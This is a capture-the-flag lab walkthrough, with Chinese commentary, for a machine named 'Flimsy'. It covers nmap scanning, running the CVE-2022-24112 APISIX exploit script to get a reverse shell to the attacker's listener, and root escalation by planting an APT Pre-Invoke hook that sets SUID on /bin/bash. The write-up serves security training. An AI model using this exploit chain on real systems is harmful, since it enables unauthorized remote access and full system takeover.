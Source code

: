 # Flimsy

### Nmap Scaning 

```
	┌─(kali?kali)-[~]
	└──╼sudo nmap 192.168.246.220 -Pn -T4 -sV -sC --min-rate=1000 -p 1-65535
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-11 15:45 UTC
	Nmap scan report for 192.168.246.220
	Host is up (0.00063s latency).
	Not shown: 65398 filtered tcp ports (no-response), 132 filtered tcp ports (host-prohibited)
	PORT      STATE  SERVICE    VERSION
	22/tcp    open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
	|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
	|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
	80/tcp    open   http       nginx 1.18.0 (Ubuntu)
	|_http-title: Upright
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	3306/tcp  open   mysql      MySQL (unauthorized)
	8080/tcp  closed http-proxy
	43500/tcp open   http       OpenResty web app server
	|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
	|_http-server-header: APISIX/2.8
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 136.70 seconds
```

### searchsploit

```
┌─(kali?kali)-[~]
└──╼$ searchsploit APISIX
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
Apache APISIX 2.12.1 - Remote Code Execution (RCE)        | multiple/remote/50829.py
---------------------------------------------------------- ---------------------------------
````

### Apache APISIX 2.12.1 - Remote Code Execution (RCE)

```
┌──(kali㉿kali)-[~]
└─$ python 50829.py http://192.168.246.220:43500/ 192.168.45.161 4444

                                   .     ,                                                                                
        _.._ * __*\./ ___  _ \./._ | _ *-+-                                                                               
       (_][_)|_) |/'\     (/,/'\[_)|(_)| |                                                                                
          |                     |                                                                                         
                                                                                                                          
                (CVE-2022-24112)                                                                                          
{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }   
```

接收端順利接上但是只有一般權限，先拿個 local.txt

```
┌──(kali㉿kali)-[~/penelope]
└─$ python penelope.py 4444
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.64.2 • 172.17.0.1 • 192.168.45.161
➤  💀 Show Payloads (p) 🏠 Main Menu (m) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from 🐧 192.168.246.220 😍 - Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/192.168.246.220/192.168.246.220.log 📜
franklin@flimsy:/root$ ls
ls: cannot open directory '.': Permission denied
...
franklin@flimsy:/$ cd home/franklin/
franklin@flimsy:/home/franklin$ ls
etcd-v3.4.13-linux-amd64  etcd-v3.4.13-linux-amd64.tar.gz  local.txt
franklin@flimsy:/home/franklin$ cat local.txt 
```

### Crontab 排程管理尋找提權

接下來卡了一段時間。後來去看別人的 writeup 才知道要去工作排程找到以 root 身分執行的檔案

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root apt-get update
* * * * * root /root/run.sh
```

因為第二支 `run.sh` 無法編輯，所以朝apt去下手，這邊補一下apt的知識：

> [!NOTE]  
> `apt-get update` 命令會檢查哪些路徑以更新軟體列表，您可以查看 APT 的配置文件和目錄。APT 在執行 `apt-get update` 時會檢查以下路徑：
> 
> 1. 軟體源列表文件：
>     - `/etc/apt/sources.list`：這是 APT 主要使用的軟體源列表文件。它包含了系統配置的軟體源。
>     - `/etc/apt/sources.list.d/`：該目錄下的文件是附加的軟體源列表文件，這些文件將與 `sources.list` 中的源合併。每個文件代表一個軟體源。
> 2. APT 配置文件目錄：
>     - `/etc/apt/apt.conf.d/`：該目錄包含了一系列的 APT 配置文件，這些文件允許您對 APT 的行為進行定制。這些配置文件中的指令會影響到 `apt-get update` 命令的行為。
> 
> `/etc/apt/apt.conf.d` 是一個目錄，通常用於存放針對 APT (Advanced Package Tool) 的配置文件。在這個目錄中，你可以放置以數字開頭的文件，這些數字表示配置文件的優先級，數字越小，優先級越高。例如，`00rooted` 這樣的文件名意味著它會在其他以數字開頭的文件之前被處理。
>

將bash加上SetUID權限，SetUID權限會使得該文件以所有者的身分執行而非現在的呼叫者，所以可以使一般使用者以管理員的身分執行bash：

```
cd /etc/apt/apt.conf.d
echo 'APT::Update::Pre-Invoke {"chmod +s /bin/bash"};' > 00rooted
```

最後在呼叫bash起來就可以拿到系統管理員的flag了：

```
franklin@flimsy:/etc/apt/apt.conf.d$ bash -p
bash-5.0# ls
00rooted          10periodic           20archive        20snapd.conf           70debconf
01-vendor-ubuntu  15update-stamp       20auto-upgrades  50command-not-found    99update-notifier
01autoremove      20apt-esm-hook.conf  20packagekit     50unattended-upgrades
bash-5.0# cd /root
bash-5.0# ls
build.sh  default.etcd  flimsy  nohup.out  proof.txt  run.sh  snap
bash-5.0# cat proof.txt 
```

> [!NOTE]  
> `bash -p` 讓 Bash 不去清除環境變數中的一些特權屬性，比如 SUID 標誌。如果你的 bash 可執行文件設置了 SUID（Set User ID）位，則 bash -p 會保留這些權限，從而允許你以特權（例如 root 權限）運行這個 Shell。